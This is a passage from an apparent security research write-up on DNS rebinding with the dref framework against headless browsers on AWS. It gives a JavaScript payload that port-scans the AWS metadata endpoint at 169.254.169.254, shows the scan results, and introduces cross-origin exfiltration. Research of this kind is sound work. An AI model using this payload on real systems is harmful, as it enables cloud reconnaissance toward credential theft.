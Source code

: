 The _dref_ tool includes the _[netmap.js](https://github.com/serain/netmap.js)_ browser-based TCP port scanning module. With it, the framework can be used to determine the local IP address of the browsers, infer a subnet, and proceed to scan the network for TCP services. This could be a viable path for lateral movement.

However, as the headless browsers that connected to the attacker-controlled site were found to be running somewhere on AWS, a more direct approach would be to interact with the [AWS metadata endpoint](https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint.html) accessible to the AWS instance that runs the headless browsers (always located at 169.254.169.254 on port 80). This endpoint provides a lot of information about the instance and is often a security issue when combined with SSRF vulnerabilities.

The following _dref_ payload was written to verify the service was accessible from the browser:

```javascript
import NetMap from "netmap.js";
import Session from "../libs/session";

const session = new Session();
const netmap = new NetMap();

function main() {
    netmap.tcpScan(["169.254.169.254"], [80, 1234, 4444]).then((results) => {
            session.log(results);
            });
}

main();
```

If the results of this payload showed port 80 to be open, it could be inferred that the AWS metadata endpoint was accessible to the browser. Ports 1234 and 4444 were also scanned to provide reference points and eliminate a false positive, as these would be expected to be closed.

The results clearly indicated that port 80 was open and reachable:

```json
"hosts": [
{
    "host": "169.254.169.254",
        "ports": [
        {"port": 80, "delta": 11, "open": true},
        {"port": 1234, "delta": 1000, "open": false},
        {"port": 4444, "delta": 1001, "open": false}
        ],
        "control": 1001
}
]
```

## Exfiltrating Data across Origins

The AWS metadata endpoint is a read-only service, thus offering no value in CSRF or blind SSRF attacks. To demonstrate a security impact it was necessary to exfiltrate responses from the service.
